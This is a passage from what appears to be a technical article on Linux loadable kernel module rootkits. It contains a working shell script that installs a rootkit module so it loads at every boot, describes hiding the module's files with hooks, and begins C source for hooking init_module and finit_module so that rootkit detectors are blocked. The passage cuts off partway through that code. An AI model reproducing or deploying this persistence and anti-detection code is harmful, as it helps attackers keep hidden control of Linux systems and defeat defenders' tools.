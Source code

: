   if [ ! -f "$ROOTKIT_PATH" ]; then
      echo "Error: '$ROOTKIT_PATH' was not found."
      exit 1
  fi

  read -p "Enter the name of the rootkit (without .ko): " ROOTKIT_NAME

  CONF_DIR="/etc/modules-load.d"
  MODULE_DIR="/usr/lib/modules/$(uname -r)/kernel"

  echo "Copying $ROOTKIT_PATH to $MODULE_DIR..."
  mkdir -p "$MODULE_DIR"
  cp "$ROOTKIT_PATH" "$MODULE_DIR/$ROOTKIT_NAME.ko"

  echo "Running depmod..."
  depmod

  echo "Configuring the module to load on startup..."
  echo "$ROOTKIT_NAME" > "$CONF_DIR/$ROOTKIT_NAME.conf"

  echo "$ROOTKIT_NAME will be loaded automatically at startup."
╚════════════════════════════════════════════════════════════════════════════╝

This script essentially makes an LKM load automatically whenever the system is
started. It copies the module to the directory
'/usr/lib/modules/$(uname -r)/kernel' and makes the necessary configuration to
have it loaded at boot by modifying configuration files in
'/etc/modules-load.d'. This way, the rootkit will be loaded every time the
system restarts.

And, of course, if you go to the directory
'/usr/lib/modules/$(uname -r)/kernel', you will find the .ko file of your
rootkit there. But that’s not the main concern, because it’s possible to
implement a hook to hide the rootkit's name, and even if you go to this
directory, the file will be invisible. The same applies to
'/etc/modules-load.d/'.

--[ 8 ]-----------[ Protecting LKM Rootkits against LKM Rootkit hunters ]-----

Protecting your LKM rootkit is essential against LKM rootkit hunters, such as
'ModTracer' (which I wrote), and also 'nitara2', which is a great LKM rootkit
detector.

Protecting an LKM rootkit against this is actually very easy; you just need to
hook the finit_module and init_module functions.

╔════════════════════════════════════════════════════════════════════════════╗
  #include <linux/module.h>
  #include <linux/kernel.h>
  #include "ftrace_helper.h"

  MODULE_LICENSE("GPL");
  MODULE_AUTHOR("matheuzsec");
  MODULE_DESCRIPTION("Hooking init_module and finit_module");
  MODULE_VERSION("1.0");

  static asmlinkage long (*hooked_init_module)(struct file *file,
                                               const char *uargs,
                                               unsigned long flags);
  static asmlinkage long (*hooked_finit_module)(struct file *file,
                                                const char *uargs,
                                                unsigned long flags);
